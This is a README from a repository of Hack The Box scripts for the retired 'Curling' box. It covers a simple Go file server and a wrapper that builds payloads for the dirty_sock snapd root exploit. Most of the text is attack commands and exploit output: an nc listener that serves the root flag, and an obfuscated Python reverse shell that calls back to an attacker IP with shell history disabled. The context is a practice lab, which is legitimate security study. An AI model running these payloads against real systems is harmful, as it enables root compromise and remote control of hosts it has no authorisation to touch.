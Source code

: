 # Golang HTTP Fileserver

## Build

```
git clone https://github.com/epi052/htb-scripts-for-retired-boxes.git
cd htb-scripts-for-retired-boxes/curling
go build go-serve.go
```

## Examples

Start a listener on port 8000 (default) serving files from the cwd.

`./go-serve`

Start a listener on a given port serving files from the cwd.

`./go-serve 80`

# the-other-dirty-sock.py

## General Steps

1. Run `the-other-dirty-sock.py` in the same directory as `dirty_sockv2.py`
2. Copy/upload `modified-dirty_sockv2.py` to target
3. Run `modified-dirty_sockv2.py` on target

## Gotchas

Snap packages execute in what amounts to a chroot.  They have a very limited idea of the host OS's filesystem.  There are a few locations it can still write to, but by and large, they can't manipulate the host filesystem.  This is important when deciding what command you want to execute.  

For instance, `cat /root/root.txt > /tmp/flag` will create the flag file in the Snap's filesystem, not in the host's /tmp folder.  

## Examples

### Listen and Serve root Flag

Generate a Snap that executes a simple command.

`python3 the-other-dirty-sock.py -c "nc -nvlp 31337 < /root/root.txt"`

Copy/upload `modified-dirty_sockv2.py` to target.  Once on target, execute the script.  In this example, the script fails when trying to delete the Snap.  This is because it's still listening on port 31337 and can't be deleted while it's running.

```
      ___  _ ____ ___ _   _     ____ ____ ____ _  _ 
      |  \ | |__/  |   \_/      [__  |  | |    |_/  
      |__/ | |  \  |    |   ___ ___] |__| |___ | \_ 
                       (version 2)

//=========[]==========================================\\
|| R&D     || initstring (@init_string)                ||
|| Source  || https://github.com/initstring/dirty_sock ||
|| Details || https://initblog.com/2019/dirty-sock     ||
\\=========[]==========================================//


[+] Slipped dirty sock on random socket file: /tmp/eyxfrvcupo;uid=0;
[+] Binding to socket file...
[+] Connecting to snapd API...
[+] Deleting trojan snap (and sleeping 5 seconds)...
[+] Installing the trojan snap (and sleeping 8 seconds)...
[+] Deleting trojan snap (and sleeping 5 seconds)...
[!] Did not work, here is the API reply:


HTTP/1.1 400 Bad Request
Content-Type: application/json
Date: Sat, 30 Mar 2019 02:03:29 GMT
Content-Length: 198

{"type":"error","status-code":400,"status":"Bad Request","result":{"message":"cannot remove \"other-dirty-sockcw6fneng\": snap \"other-dirty-sockcw6fneng\" has \"install-snap\" change in progress"}}
```

Connect to listener on 31337.

```
┌(kail)─(09:20 PM Fri Mar 29)
└─(curling)─> nc -vn 10.10.10.150 31337
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Connected to 10.10.10.150:31337.
82c198ab6fc5365fdc6da2ee5c26064a
```

### Python Reverse Shell Payload

Create a bash script that contains a python reverse shell command.

```
#!/bin/bash

python3 -c "import os;import pty;import socket;vFKTJAVPnDYYHc='10.10.14.16';kKVXHQZGlLwhfd=12345;lBVbuY=socket.socket(socket.AF_INET,socket.SOCK_STREAM);lBVbuY.connect((vFKTJAVPnDYYHc,kKVXHQZGlLwhfd));os.dup2(lBVbuY.fileno(),0);os.dup2(lBVbuY.fileno(),1);os.dup2(lBVbuY.fileno(),2);os.putenv('HISTFILE','/dev/null');pty.spawn('/bin/bash');lBVbuY.close();"
```

Generate a Snap that reads in the shell script to use as its payload.

`python3 the-other-dirty-sock.py -f callback.sh`

Start a local listener.

`nc -vnlp 12345`

Copy/upload `modified-dirty_sockv2.py` to target.  Once on target, execute the script.  In this example, the script fails when trying to delete the Snap.  This is because it's still connected to us on port 12345.

```
      ___  _ ____ ___ _   _     ____ ____ ____ _  _ 
      |  \ | |__/  |   \_/      [__  |  | |    |_/  
      |__/ | |  \  |    |   ___ ___] |__| |___ | \_ 
                       (version 2)

//=========[]==========================================\\
|| R&D     || initstring (@init_string)                ||
|| Source  || https://github.com/initstring/dirty_sock ||
|| Details || https://initblog.com/2019/dirty-sock     ||
\\=========[]==========================================//


[+] Slipped dirty sock on random socket file: /tmp/eyxfrvcupo;uid=0;
[+] Binding to socket file...
[+] Connecting to snapd API...
[+] Deleting trojan snap (and sleeping 5 seconds)...
[+] Installing the trojan snap (and sleeping 8 seconds)...
[+] Deleting trojan snap (and sleeping 5 seconds)...
[!] Did not work, here is the API reply:


HTTP/1.1 400 Bad Request
Content-Type: application/json
Date: Sat, 30 Mar 2019 02:03:29 GMT
Content-Length: 198

{"type":"error","status-code":400,"status":"Bad Request","result":{"message":"cannot remove \"other-dirty-sockcw6fneng\": snap \"other-dirty-sock_4371neng\" has \"install-snap\" change in progress"}}
```

